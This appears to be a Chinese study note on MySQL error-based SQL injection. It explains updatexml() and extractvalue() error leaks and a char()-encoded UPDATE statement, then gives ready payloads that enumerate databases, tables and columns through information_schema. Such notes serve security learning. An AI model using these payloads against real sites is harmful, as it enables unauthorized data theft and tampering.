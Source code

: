 ```mysql
set @sql=char(117,112,100,97,116,101,32,115,99,111,114,101,32,115,101,116,32,108,105,115,116,101,110,61,50,48,48);prepare query from @sql;execute query;
```





### 报错注入

##### 原理

**使用`mysql_error()`函数，可以返回上一个Mysql操作产生的文本错误信息。**

```php
<?php
$con = mysql_connect("localhost","wrong_user","wrong_pwd");
if (!$con)
{
  die(mysql_error());
}
>>
Access denied for user 'wrong_user'@'localhost'
(using password: YES)
```



##### 报错函数

最常用的

```mysql
# Xpat语法错误，报错信息是有长度限制的，最大长度限制32位,配合substr()等截取字符串函数使用
select extractvalue(1,concat(0x7e,(select user()),0x7e));
select updatexml(1,concat(0x7e,(select user()),0x7e),1);
```

![image-20230523184243091](../../../../images/image-20230523184243091.png)

其他[MySQL报错注入 ](https://hatboy.github.io/2018/08/28/MySQL报错注入/)



##### payload

```mysql
原型：
?id=1"or(updatexml(1,concat(0x7e,(),0x7e),1))--+

爆库:
?id=1"or(updatexml(1,concat(0x7e,(select(substr(group_concat(schema_name),1,32))from (information_schema.schemata)),0x7e),1))--+

 
爆表：
id=1"or(updatexml(1,concat(0x7e,(select(substr(group_concat(table_name),1,32))from (information_schema.tables)where(table_schema='已知库名')),0x7e),1))--+



爆列名：
id=1"or(updatexml(1,concat(0x7e,(select( substr(group_concat(column_name),1,32)))from(information_schema.columns)where(table_name='flag'))),1))--+

```